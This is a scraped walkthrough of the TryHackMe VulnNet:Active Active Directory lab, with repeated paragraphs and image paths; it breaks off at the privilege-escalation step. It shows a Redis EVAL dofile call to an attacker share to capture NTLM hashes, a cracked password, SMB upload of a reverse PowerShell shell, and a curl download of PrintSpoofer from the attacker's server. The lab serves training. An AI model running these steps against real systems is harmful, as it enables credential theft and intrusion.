






Vulnet:Active TryHackMe Walkthrough
March 26,2026

March 26,2026
Below is a step by step walkthrough of the TryHackMe lab: VulnNet:Active
This lab is medium difficulty and makes you jump through some difficult hoops, but if you stay focused you might just learn something.
-
For walkthrough I will use my own Kali Virtual Machine. First start your machine and wait for the IP. I open my terminal and start an OpenVPN
connection with the config files they give you in TryHackMe.
I also changed my Hosts file to set the IP to the hostname: VulnNet.
-
Find the below flags:
What is the system flag? (Desktop\system.txt)
What is the user flag? (Desktop\user.txt)
- ***Note: This tryhackme machine/box is prone to break or stop working completely after about 30-45 mins, if you notice that something is not working, try to ping the machine. If it seems to have lost the connection, you will have to restart all over.
Setup
Click here to navigate to the TryHackMe room.
Recon#1
RUSTSCAN
 For a scan, I use this command in RustScan. It’s faster and more robust.
For a scan, I use this command in RustScan. It’s faster and more robust. “sudo rustscan -a tryHackMeLabIPaddress --ulimit 5000”
PORT STATE SERVICE REASON
53/tcp open domain syn-ack ttl 126
135/tcp open msrpc syn-ack ttl 126
139/tcp open netbios-ssn syn-ack ttl 126
445/tcp open microsoft-ds syn-ack ttl 126
464/tcp open kpasswd5 syn-ack ttl 126
6379/tcp open redis syn-ack ttl 126
9389/tcp open adws syn-ack ttl 126
49667/tcp open unknown syn-ack ttl 126
49668/tcp open unknown syn-ack ttl 126
49669/tcp open unknown syn-ack ttl 126
49670/tcp open unknown syn-ack ttl 126
49671/tcp open unknown syn-ack ttl 126
49696/tcp open unknown syn-ack ttl 126
49704/tcp open unknown syn-ack ttl 126
Lots of ports open, including: Active Directory Services, DNS, SMB/Netbios. Port 464 is part of Kerberos and handles secure password changes.
The 5 at the end of “passwd” is for the version number. Port 9389 is Active Directory Web Services and allows the use of modern AD functionality over a remote session. Based on all these ports we can safely assume that we are on a windows machine.
Since this is an active directory environment, and has Port 445 and 139, which are SMB protocols, we can check if it is using NTLM for authentication.
ENUM4LINUX
Enum4Linux gives us the Domain Name : VULNNET and some possible known usernames. This line: + Server 10.66.174.40 allows sessions using username ‘’ and password ‘’. Something also interesting is that this is saying it allows null sessions or in other words anonymous logins. So, when we connect to this Windows environment, it will allow us to login using blank username and password.

Lots of ports open, including: Active Directory Services, DNS, SMB/Netbios. Port 464 is part of Kerberos and handles secure password changes.The 5 at the end of “passwd” is for the version number. Port 9389 is Active Directory Web Services and allows the use of modern AD functionality over a remote session. Based on all these ports we can safely assume that we are on a windows machine.
Since this is an active directory environment, and has Port 445 and 139, which are SMB protocols, we can check if it is using NTLM for authentication.
OSINT and REDIS
Redis (Port 6379) is a caching services that can hold some good information and might contain cached password or credentials. There are some exploits with Metasploit that enumerate some good information like version and other things.
I was searching online for Redis Vulnerabilities, and I found this resource: https://hacktricks.wiki/network-services-pentesting/ 6379 - Pentesting Redis - HackTricks
This shows you how to connect to the Redis command line interface:
redis-cli -h 10.10.10.10 And has some recon commands, like INFO, CLIENT LIST, and CONFIG GET * CONFIG GET * will give you the path for a user: C:\\Users\\enterprise-security\\Downloads\\Redis..
We have our first username: enterprise-security!!!

EXPLOIT AND PAYLOAD (1st Flag - Desktop\user.txt)
So, with the info we have from our recon, we can access the file system by running the below payload, we can get the user.txt flag.

Since this is an Active Directory Environment with SMB services, we can try to use a NTLM relay attack and intercept any NTLM hashes. Using responder, we can intercept any authentication data. Since we can escape the Redis sandbox, we can try send data back to the VPN tunnel that responder is using and intercept this data:
EVAL "dofile('//192.168.129.95//share')" 0
RESPONDER
Here you can see the authentication data that was collected by Responder, this is an NTLMV2 hash, and we can try to crack it with Hashcat

By using Hashcat, we can crack this NTLMv2 hash, and you can see the password at the bottom of the hash.
RECON#2
SMB
I used smbmap for enumerating the SMB shares with the credentials found with the Redis exploit. See below for the output:smbmap -H VULNNET -u enterprise-security -p sand_0873959498

So, it looks like Enterprise-Share has read and write access, so I tried seeing what’s in there. But I had a difficult time connecting to the actual SMB service by using SMBCLIENT,
it would not connect for some reason.
I used Netexec with this payload:
netexec smb 10.66.141.81 -u enterprise-security -p sand_0873959498 -d VULNNET --shares
and then,
smbclient //10.66.141.81/Enterprise-Share -U 'VULNNET\enterprise-security%sand_0873959498'
And presto, I got a SMB prompt!
Uploading a new script
To upload a file in the SMB server, you can use functions like put.See below: smb: \> put PurgeIrrelevantData_1826.ps1
But first you must modify the file on your kali machine and upload a reverse shell script into the SMB share.
I used a script in the built in Kali file folder at /usr/share/set/src/powershell
There is a file called reverse_powershell (this is a function that creates a reverse shell with powershell commands). Login to smbclient again and use the put command to copy the file into the SMB share.
The put function has copied an exact copy in you current folder on your Kali machine. Script modifications: ***I also added the IP and the PORT, IMPORTANT*** place the IP of the tunnel or VPN that you are using to connect to the TryHackMe box. You can ip a, to find the Tun0 IP address.

This what your reverse shell will look like at first. With the command “whoami”, you will see enterprise-security.

But we need to be root to get the 2nd flag. So we need to elevate privileges or access to get the 2nd Flag. To check what privileges this user might have, we can use the command: Whoami /priv And the below will show the privileges of enterprise-security

The setImpersonatePrivilege is enabled and will help us elevate our privilege. According to grok: “Having SetImpersonatePrivilege enabled in your token allows you to:
• Take an impersonation token from a higher-privileged process (especially SYSTEM) that authenticates to something you control.
• Create a new process running as that higher-privileged account.
This is the foundation for many local privilege escalation techniques on Windows, especially when you have code execution as a service account but not as Administrator/SYSTEM. “
Also, we can enumerate some information about the system we are on: systeminfo Which gives you the Microsoft version 2019 Windows Server.

OSINT
Since we need to elevate our privilege from enterprise-security to a root account or a SYSTEM account in windows. I researched setImpersonatePrivilege + vulnerability and found a gitbug page called Windows-Local-Privilege-Escalation-Cookbook/Notes/SeImpersonatePrivilege.md at master · nickvourd/Windows-Local-Privilege-Escalation-Cookbook · GitHub This site shows a proof of concept to exploit this vulnerability.
This site led me to another Github page called: GitHub - itm4n/PrintSpoofer: Abusing impersonation privileges through the "Printer Bug" · GitHub
This exploit uses a tool called PrintSpoofer that can escalate privilege on a Windows machine - 2019 Windows Server. GitHub - itm4n/PrintSpoofer: Abusing impersonation privileges through the "Printer Bug" · GitHub
Start a python server to host these files: Sudo python3 -m http.server 80 curl -s -L http://192.168.129.95:8080/PrintSpoofer.exe -o C:\Users\enterprise-security\Downloads\print.exe